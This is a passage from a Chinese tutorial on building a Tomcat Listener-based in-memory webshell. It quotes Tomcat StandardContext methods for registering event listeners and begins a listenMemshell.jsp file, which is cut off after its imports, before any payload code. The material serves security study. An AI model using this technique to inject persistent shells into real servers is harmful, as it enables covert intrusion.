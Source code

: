 ```plain
Object instances[] = getApplicationEventListeners();
```

查看此函数

```plain
@Override
public Object[] getApplicationEventListeners() {
    return applicationEventListenersList.toArray();
}
```

所以 listener 存放在 applicationEventListenersList 属性中，所以在 StandardContext 中找到能够向 applicationEventListenersList 添加 listener 的方法  
方法 1：

```plain
/**
 * Add a listener to the end of the list of initialized application event listeners.
 *
 * @param listener The listener to add
 */
public void addApplicationEventListener(Object listener) {
    applicationEventListenersList.add(listener);
}
```

方法 2：

```plain
/**
 * {@inheritDoc} Note that this implementation is not thread safe. If two threads call this method concurrently, the
 * result may be either set of listeners or a the union of both.
 */
@Override
public void setApplicationEventListeners(Object listeners[]) {
    applicationEventListenersList.clear();
    if (listeners != null && listeners.length > 0) {
        applicationEventListenersList.addAll(Arrays.asList(listeners));
    }
}
```

第二个问题：event 如何构造？在 fireRequestInitEvent 方法中由如下代码构造

```plain
ServletRequestEvent event = new ServletRequestEvent(getServletContext(), request);
```

### 5.4 Listener 内存马

listenMemshell.jsp:

```plain
<%--
  Created by IntelliJ IDEA.
  User: Dili
  Date: 2023/9/19
  Time: 14:41
  To change this template use File | Settings | File Templates.
--%>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%!
```
